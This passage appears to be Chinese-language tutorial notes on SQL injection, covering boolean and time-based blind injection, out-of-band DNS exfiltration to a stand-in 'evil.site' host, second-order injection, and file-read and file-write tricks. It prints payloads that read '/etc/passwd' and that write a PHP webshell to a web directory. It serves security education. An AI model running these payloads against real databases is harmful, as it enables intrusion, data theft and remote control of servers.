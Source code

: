 因为该语句为假，服务器将不会返回结果给用户。
攻击者无法看到完整的SQL语句，为了进一步确认是否存在注入漏洞，攻击者还必须验证这个过程。因为应用程序内部的处理逻辑或安全过滤功能，攻击者构造的异常请求也可能会导致页面无法正常返回，因此会进一步测试，构造如下请求：
`http://example.com/item.php?id=2 AND 1=1`
当攻击者构造条件"AND 1=1"，如果页面正常返回，则说明SQL语句执行成功，则存在SQL注入漏洞。攻击者也可以通过构造"OR 1=1"来尝试。
该攻击过程中，服务端虽然关闭了错误回显，但是攻击者能通过对比返回页面的差异，来判断是否存在SQL注入
在布尔型盲注中，存在注入漏洞不一定是体现在查询结果的不一致上，有时候在HTTP响应的其他地方也会体现细微差异，如DOM节点差异，可能需要多次尝试来验证。在自动化扫描器中，通常会通过响应内容的长度差异来判断是否存在注入漏洞
### 延时盲注
并不是所有的应用场景的查询结果都会影响显示页面。如果查询结果仅用于应用程序的内部处理逻辑，并不影响页面的输出内容，那么布尔型盲注就失效了，因此需要其他手段。
在web应用中，查询数据库通常都是同步操作，即查询数据库的事件长短会影响请求的响应时间。在数据库中，有不少函数都可以通过参数控制其执行时常。在MySQL中，有一个BENCHMARK()函数，用于测试函数性能，它有两个参数：
`BENCHMARK(count,expr)`
该函数的执行结果，是将表达是expr执行count次。如：
`SELECT BENCHMARK(5000000,MD5(123));`
通过执行时长来判断注入语句是否执行成功。
上述案例中，构造如下参数：
`123 OR BECHMARK(5000000,MD5(123));-- `
服务端响应时间更长，则说明存在SQL注入漏洞。
延时盲注的具体方式与数据库类型有关：

|   数据库    |                      延时方法                       |
| ---------- | -------------------------------------------------- |
| MySQL      | BENCHMARK(1000000,md5(1))、SLEEP(5)、GET_LOCK(1,5) |
| PostgreSQL | pg_sleep(5)、generate_series(1,1000000)            |
| SQL Sever  | WAITFOR DELAY'0:0:5'                               |
此外，还有一些通用的方法可以实现延时效果 。让服务端查询一个大表，相对简单的方式是让数据库对一个表执行笛卡尔积操作。但是，会消耗服务器资源影响正常业务。
### 带外数据注入
所谓的带外数据 (Out-of-Band)，是值执行一项操作时通过额外的信道向外发送的数据，可以用来判断目标应用是否存在SQL注入漏洞。攻击者更多的时候是利用带外数据来向外传送特定内容。
如果web应用中的查询数据库操作是异步进行的，对它的注入操作不会直接反应在HTTP响应中，布尔型盲注和延时盲注都不可用了。通过带外数据，我们可以构造特定的SQL语句让目标数据库通过网络向外发送数据，这种注入攻击就是带外数据注入。
例如在使用SQL Server的应用中，如果参数id存在SQL注入漏洞，对于如下语句：
`http://example.com/item.aspx?id=1;EXEC master..xp_dirtree'\\5d41402abc4b2a76.evil.site\' --%20`
第二条语句会执行SQL Server的xp_dirtree存储过程，其功能是列出网络驱动器 \\5d41402abc4b2a76.evil.site\下的所有目录，不一定存在，但是在执行时，数据库会向攻击者的域名服务器发起一次DNS查询，这样攻击者通过监控DNS日志就能知道注入的SQL语句是否执行成功。
其他数据库中也会有类似的网络函数用于向外发送数据。如mysql中可以使用`LOAD_FILE`函数加载网络驱动器上的文件：
`SELECT LOAD_FILE('\\\\5d41402abc4b2a76.evil.site\1.txt')`
同样该函数也会发起一次DNS查询。该用法依赖与mysql中国呢的secure_file_priv的配置变量，它用于控制mysql允许访问的文件路径，旧版mysql该选项的值默认为空，即不做任何限制，很容易成功，新版mysql中，默认值是NULL，不允许访问目录。
在Oracle数据库中，可以使用UTL_INADDR.GET_HOST_ADDRESS、UTL_HTTP.REQUEST等函数发起请求。
## 二次注入
之前的案例都是web应用将用户的输入数据直接用于拼接SQL语句导致的。有时候，开发人员对外部数据做了严格的过滤，或采用完善的SQL注入防御方案，但是在将应用程序内部数据拼接到SQL语句中时，错误地认为内部数据都是可信的，未采取相应的安全措施。
当用户提交恶意数据被存入数据库后，应用程序再把它读取出来用于生成新的SQL语句时，如果没有相应的安全措施，还是有可能发生SQL注入，这种注入叫做二次SQL注入，也叫存储型SQL注入
## SQL注入技巧
SQL注入是基于数据库的一种攻击。不同的数据库有着不同的功能、语法和函数，因此针对不同的数据库，SQL注入的技巧也有所不同。
### 常见攻击技巧
手工注入非常繁琐，通常使用sqlmap等自动化工具。
攻击者在实施注入攻击的过程中，常常会用到一些读/写文件的技巧，比如mysql中，就可以通过`LOAD_FILE()`读取系统文件
`id=1 union select 1,1,LOAD_FILE('etc/passwd')`
当然，这要求当前数据库进程有读/写系统响应文件或目录的权限，数据库账号被授予了FILE权限，并且数据库配置中的secure_file_priv值为空
通过`INTO OUTFILE`可以写入文件，该技巧经常被用于导出一个webshell到web目录，进行远程连接。执行这个语句需要提前知道Web目录路径，可以使用前面读取文件的方式，尝试读取web服务器的默认配置文件来获取web目录.
`id =1 union select '<?php eval($_GET['c']);?>' into outfile '/var/www/shell.php'`
除了使用INTO OUTFILE，也可以使用`INTO DUMPFILE`。二者区别是后者适用于二进制文件，所以在有权限的场景中，可以往指定位置写入可执行文件或动态链接库。很多时候受URL长度限制，需要将文件内容分批次写入一个表中，然后再导出到指定位置：
```
CREATE TABLE tb1(data longblob);
```